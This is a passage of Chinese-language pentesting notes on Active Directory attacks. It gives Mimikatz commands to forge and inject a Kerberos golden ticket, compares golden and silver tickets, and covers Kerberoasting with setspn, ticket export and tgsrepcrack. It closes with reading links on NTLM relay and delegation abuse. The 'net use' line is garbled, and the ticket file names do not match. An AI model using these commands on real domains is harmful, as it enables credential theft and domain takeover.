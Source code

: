 ```
kerberos::purge
kerberos::golden /admin:administrator /domain:域 /sid:SID /krbtgt:hash值 /ticket:adinistrator.kiribi
kerberos::ptt administrator.kiribi
kerberos::tgt
net use k: \pnet use k: \pentest.comc$
```

相关阅读 :

* [https://adsecurity.org/?p=1640](https://adsecurity.org/?p=1640)
* [域服务账号破解实践](http://bobao.360.cn/learning/detail/3564.html)
* [Kerberos的认证原理](https://blog.csdn.net/wulantian/article/details/42418231)
* [深刻理解windows安全认证机制ntlm＆Kerberos](https://klionsec.github.io/2016/08/10/ntlm-kerberos/)

**Kerberos的银票务**

黄金票据和白银票据的一些区别： Golden Ticket：伪造`TGT`，可以获取`任何Kerberos`服务权限 银票：伪造TGS，`只能访问指定的服务` 加密方式不同： Golden Ticket由`krbtgt`的hash加密 Silver Ticket由`服务账号`（通常为计算机账户）Hash加密 认证流程不同： 金票在使用的过程需要同域控通信 银票在使用的过程不需要同域控通信 相关阅读 :

* [攻击者如何使用Kerberos的银票来利用系统](https://adsecurity.org/?p=2011)
* [域渗透——Pass The Ticket](https://www.feiworks.com/wy/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Pass%20The%20Ticket.pdf)

**域服务账号破解**

与上面SPN扫描类似的原理 [https://github.com/nidem/kerberoast](https://github.com/nidem/kerberoast) 获取所有用作SPN的帐户

```
setspn -T PENTEST.com -Q */*
```

从Mimikatz的RAM中提取获得的门票

```
kerberos::list /export
```

用rgsrepcrack破解

```
tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

**凭证盗窃**

从搜集的密码里面找管理员的密码

**NTLM relay**

* [One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
* [privexchange](https://github.com/dirkjanm/privexchange/)
* [Exchange2domain](https://github.com/ridter/exchange2domain)

**Kerberos委派**

* [Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [s4u2pwnage](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
* [Attacking Kerberos Delegation](https://xz.aliyun.com/t/2931)
* [用打印服务获取域控](https://adsecurity.org/?p=4056)
* [Computer Takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
* [Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
* [CVE-2019-1040](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/)
